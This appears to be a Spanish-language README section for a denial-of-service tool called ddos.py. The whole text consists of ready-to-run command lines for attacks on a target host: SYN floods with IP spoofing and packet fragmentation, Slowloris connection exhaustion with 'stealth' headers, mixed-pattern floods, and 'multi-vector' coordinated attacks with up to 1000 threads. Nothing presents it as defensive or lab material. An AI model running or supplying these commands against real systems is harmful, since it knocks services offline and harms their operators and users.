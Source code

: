 #### ⚡ **TCP SYN Flood (Requiere Privilegios)**
```bash
# SYN Flood básico (requiere sudo en Linux/macOS)
sudo python3 ddos.py --target 192.168.1.100 --method syn \
    --threads 500 --port 80 --raw-sockets

# SYN Flood avanzado con spoofing
sudo python3 ddos.py --target target.com --method syn \
    --source-ip-spoofing --fragment-packets --fast-mode
```

#### 🚀 **Slowloris - Agotamiento de Conexiones**
```bash
# Slowloris estándar
python3 ddos.py --target slow.example.com --method slowloris \
    --connections 1000 --timeout 300 --keep-alive

# Slowloris avanzado de Alvaro Manzo
python3 ddos.py --target target.com --method slowloris \
    --slow-headers --partial-requests --ssl-handshake-delay \
    --connection-recycling --stealth-headers
```

#### 🔄 **Mixed Attack - Combinación Inteligente**
```bash
# Ataque mixto automático
python3 ddos.py --target example.com --method mixed \
    --duration 300 --auto-scaling --smart-rotation

# Mixed con patrón personalizado por Alvaro Manzo
python3 ddos.py --target target.com --method mixed \
    --attack-pattern "http:40%,post:30%,slowloris:20%,syn:10%" \
    --dynamic-switching --load-balancing
```

#### 💀 **Multi-Vector - Ataque Simultáneo Total**
```bash
# Multi-vector máximo
python3 ddos.py --target example.com --method multi-vector \
    --max-threads 1000 --duration 600 --all-techniques

# Multi-vector profesional de Alvaro Manzo
python3 ddos.py --target target.com --method multi-vector \
    --coordinated-attack --phase-switching --adaptive-intensity \
    --real-time-optimization --stealth-coordination
```

### Ejecución con Permisos
```bash
sudo python3 ddos.py  # Para TCP SYN Flood
```

---
